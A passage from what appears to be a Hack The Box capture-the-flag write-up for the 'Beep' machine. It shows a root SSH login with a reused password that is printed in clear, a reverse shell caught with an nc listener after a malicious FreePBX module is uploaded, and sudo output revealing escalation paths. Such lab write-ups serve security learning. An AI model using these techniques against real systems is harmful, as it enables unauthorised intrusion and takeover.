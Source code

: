 At this point I was curious if they used the password for EVERYTHING. So I tried to connect to ssh with root! And it worked! I got a root shell! 

```
┌─[puck@parrot-lt]─[~/htb/beep]
└──╼ $ssh -o KexAlgorithms=diffie-hellman-group14-sha1 root@10.10.10.7
root@10.10.10.7's password: 
Permission denied, please try again.
root@10.10.10.7's password: jEhdIekWmdjE
Last login: Tue Jul 16 11:45:47 2019

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# ls
anaconda-ks.cfg		   install.log.syslog  webmin-1.570-1.noarch.rpm
elastix-pr-2.2-1.i386.rpm  postnochroot
install.log		   root.txt
[root@beep ~]# 
```

### FreePBX

However, I was not quite satisfied with the way how I got root. So maybe there is another way to somehow get a reverse shell, now that we have access to the admin panel.

As the admin panel provides the feature for uploading custom modules, I tried to exploit this, by uploading a malicious module containing a reverse shell. And it worked! (credits to: https://github.com/SamSepiolProxy/FreePBX-Reverse-Shell-Module, which basically provided the module. Due to newer version of the FreePBX software, some changes regarding version had to be made. E.g version tags had to be added in the module.xml file and the tar.gz also had to contain the version number in the name)

```
└──╼ $ nc -lvnp 4444 
listening on [any] 4444 ...
connect to [10.10.14.50] from (UNKNOWN) [10.129.1.226] 50137
Linux beep 2.6.18-238.12.1.el5 #1 SMP Tue May 31 13:23:01 EDT 2011 i686 athlon i386 GNU/Linux
 22:30:15 up  2:35,  0 users,  load average: 0.00, 0.00, 0.01
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=100(asterisk) gid=101(asterisk) groups=101(asterisk)
sh: no job control in this shell
sh-3.2$ id
uid=100(asterisk) gid=101(asterisk) groups=101(asterisk)
```

```
sh-3.2$ sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
    LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY"

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
```